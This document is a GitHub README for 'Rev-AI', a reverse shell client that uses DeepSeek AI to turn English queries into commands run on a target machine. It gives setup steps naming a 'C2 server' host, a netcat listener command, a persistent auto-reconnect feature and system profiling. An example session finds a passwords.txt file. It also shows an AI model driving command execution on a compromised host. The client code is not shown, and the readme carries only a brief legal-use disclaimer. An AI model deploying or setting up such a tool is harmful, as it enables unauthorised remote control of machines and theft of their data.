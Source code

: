# 🔄 Rev-AI: AI-Powered Reverse Shell Client

![Python](https://img.shields.io/badge/python-3.7+-blue.svg)
![Platforms](https://img.shields.io/badge/platform-windows%20%7C%20linux%20%7C%20macos-lightgrey.svg)
![License](https://img.shields.io/badge/license-MIT-green.svg)

## 📌 Overview

Rev-AI is an intelligent reverse shell client that:
- Translates natural language to Linux commands using DeepSeek AI
- Maintains persistent connections with automatic reconnection
- Provides detailed system diagnostics
- Works across multiple operating systems

## 🚀 Features

| Feature | Description |
|---------|-------------|
| **🤖 AI Command Generation** | Converts English queries to executable commands |
| **🔧 Cross-Platform** | Supports Windows, Linux, and macOS targets |
| **🔒 Secure Communication** | Encrypted socket communication with timeouts |
| **🔄 Auto-Reconnect** | Resilient connection with configurable retry intervals |
| **💻 System Profiling** | Detailed OS/hardware information collection |
| **🧠 Context Memory** | Maintains conversation history with AI model |

## ⚙️ Installation

```bash
# Clone the repository
git clone https://github.com/yourusername/rev-ai.git
cd rev-ai

# Install dependencies
pip install -r requirements.txt

# Configure environment (create .env file)
echo "RSHELL_HOST=your_server_ip" > .env
echo "RSHELL_PORT=62065" >> .env
echo "DEEPSEEK_API_KEY=your_api_key" >> .env
```

## 🛠 Configuration

### Environment Variables

```ini
# Required
RSHELL_HOST="your_server_ip"  # C2 server IP
DEEPSEEK_API_KEY="sk-..."     # DeepSeek API key

# Optional
RSHELL_PORT=62065             # Connection port
RSHELL_RECONNECT=15           # Reconnect delay (seconds)
RSHELL_TIMEOUT=60             # Socket timeout 
RSHELL_MAX_HISTORY=20         # AI context memory
RSHELL_CONTEXT="context.md"   # AI instructions file
```

## 🖥 Usage

### 1. Start Listener (Server)
```bash
nc -lvnp 62065
```

### 2. Execute Client (Target)
```bash
python rev-ai.py
```

### 3. Available Commands
```
diagnostic            - Show system information
what did i tell you   - View command history
<natural language>    - AI-generated commands
```

### Example Session
```bash
> diagnostic
[Windows]
User: admin
Version: Windows-10-10.0.19045
Admin: True

> list all txt files in /documents
TEXT:
[Query] list all txt files in /documents  
[Command] find /documents -name "*.txt" 2>/dev/null
[Output]
/docs/notes.txt
/docs/passwords.txt
```

## ⚠️ Security Notice

❗ **Legal Use Only**  
This tool is intended for:
- Authorized penetration testing
- Educational purposes
- Legitimate system administration

🔒 **Required Precautions:**
1. Obtain explicit written permission before deployment
2. Use only on systems you own/administrate
3. Never use for illegal activities

## 📜 License

MIT License - See [LICENSE](LICENSE) for full text.

## 📬 Contact

For security reports or questions:
- Email: your@email.com
- GitHub Issues: [Open Issue](https://github.com/yourusername/rev-ai/issues)

---

*Disclaimer: Authors are not responsible for misuse of this software.*
